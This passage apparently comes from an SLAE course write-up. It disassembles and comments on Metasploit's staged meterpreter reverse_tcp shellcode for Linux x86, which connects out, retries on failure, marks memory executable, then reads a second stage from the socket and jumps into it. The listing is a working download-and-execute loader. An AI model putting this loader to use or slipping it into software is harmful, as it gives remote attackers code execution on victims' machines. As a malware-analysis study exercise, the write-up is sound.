 ```
24: 51                      push   ecx      ;push the address of the parameters
25: 57                      push   edi      ;push the socket file descriptor
26: 89 e1                   mov    ecx,esp  ;ecx now points to the parameters on the stack
28: 43                      inc    ebx      ;ebx=3
;EAX=0x66 (socketcall)
;EBX=3 (connect)
;ECX -> &(sockaddr parameters)


29: cd 80                   int    0x80 ;call syscall (connect)
2b: 85 c0                   test   eax,eax  ;check if eax is 0 (connection successful)
2d: 79 19                   jns    0x48
2f: 4e                      dec    esi  ;if connection failed,
30: 74 3d                   je     0x6f
32: 68 a2 00 00 00          push   0xa2 ;prepare nanosleep syscall
37: 58                      pop    eax
38: 6a 00                   push   0x0
3a: 6a 05                   push   0x5
3c: 89 e3                   mov    ebx,esp
3e: 31 c9                   xor    ecx,ecx
40: cd 80                   int    0x80 ;call nanosleep (wait for signal)
42: 85 c0                   test   eax,eax
44: 79 bd                   jns    0x3
46: eb 27                   jmp    0x6f
48: b2 07                   mov    dl,0x7
4a: b9 00 10 00 00          mov    ecx,0x1000
4f: 89 e3                   mov    ebx,esp
51: c1 eb 0c                shr    ebx,0xc
54: c1 e3 0c                shl    ebx,0xc
57: b0 7d                   mov    al,0x7d
59: cd 80                   int    0x80
5b: 85 c0                   test   eax,eax
5d: 78 10                   js     0x6f
5f: 5b                      pop    ebx
60: 89 e1                   mov    ecx,esp
62: 99                      cdq
63: b6 0c                   mov    dh,0xc
65: b0 03                   mov    al,0x3
67: cd 80                   int    0x80 ;read syscall
69: 85 c0                   test   eax,eax
6b: 78 02                   js     0x6f
6d: ff e1                   jmp    ecx
6f: b8 01 00 00 00          mov    eax,0x1
74: bb 01 00 00 00          mov    ebx,0x1
79: cd 80                   int    0x80 ;sys_exit
```

The idea is to create a socket then try to connect to a certain IP/PORT. If it does not succed, wait for a few seconds or the delivery of a signal (connection). If the time runs off, goes back to the beginning and try to connect once again. When if finally succeds, read whatever is sent (probably the next stage).

![meterpreter/reverse_tcp](https://github.com/marcosValle/SLAE/blob/master/assignment5/meterpreter_reverse_tcp_staged.png)
